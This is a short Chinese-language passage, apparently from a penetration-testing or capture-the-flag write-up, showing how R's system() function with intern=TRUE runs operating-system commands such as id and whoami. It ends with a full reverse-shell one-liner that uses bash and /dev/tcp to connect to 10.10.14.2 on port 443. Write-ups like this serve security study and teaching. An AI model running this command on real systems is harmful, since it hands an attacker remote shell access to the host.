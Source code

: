 R 有一个内置system 命令来运行操作系统命令。只是运行system("id")不会返回任何内容，但是根据文档进行一些摆弄，添加intern = TRUE参数会返回输出：

[![](assets/1701678355-d4da36d1c643059e7ca9ccc84627d9ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130210718-63f0948e-8f81-1.png)

执行whoami命令试试，成功执行命令。

[![](assets/1701678355-cc6180c03f7e2eedbe352366636939ef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130210725-67d8b0ae-8f81-1.png)

## 反弹shell

接着进行反弹shell  
system("bash -c 'bash -i >& /dev/tcp/10.10.14.2/443 0<&1'",intern=TRUE)
